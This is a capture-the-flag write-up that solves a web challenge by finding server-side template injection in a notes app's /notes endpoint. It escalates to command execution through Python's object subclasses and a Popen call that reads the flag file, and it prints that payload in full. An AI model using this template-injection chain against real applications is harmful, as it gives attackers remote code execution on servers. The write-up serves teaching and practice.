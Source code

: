# Notes - Solution

Created by Yarin ([GitHub](https://github.com/CmdEngineer) / [Twitter](https://twitter.com/CmdEngineer_))

## Description

http://challenges2.hexionteam.com:2001

## Solution

You start with a simple notes program:

![Image Error](assets/page_notes.png)

After adding some notes

![Image Error](assets/page_notes_with_notes.png)

Viewing the source of the site we see:

```html
<!-- DEPRECATED <script>
    $.getJSON("/notes", (res) => {
        res.forEach(o => {
            notesList.append(document.createTextNode(o));
        });
    });
</script> -->
```

Mhmm `/notes` is interesting it gives us this json:

```json
['Note - 1', 'Note - 2']
```

This `/notes` is vulnerable to SSTI (Server Side Template Injection). \
Creating the note `{{7 * 7}}` yields `49` on `/notes`. Awesome!

Let's try to get an RCE. \
Python:

To get object object:

```py
>>> ''.__class__
<class 'str'>
>>> ''.__class__.mro()
[<class 'str'>, <class 'object'>]
>>> ''.__class__.mro()[1]
<class 'object'>
```

Now we search for exploit-able objects in object subclasses: \
`{{ ''.__class__.mro()[1].__subclasses__() }}`

Subclass number 200 and number 425 are Popen and can be used to open processes (for some weird reason number 200 doesn't work, I have no clue)

### Payload

`{{''.__class__.mro()[1].__subclasses__()[425](['cat','flag'], stdout=-1).communicate()[0] }}`

Flag: `hexCTF{d0nt_r3nder_t3mplates_w1th_u5er_1nput}`
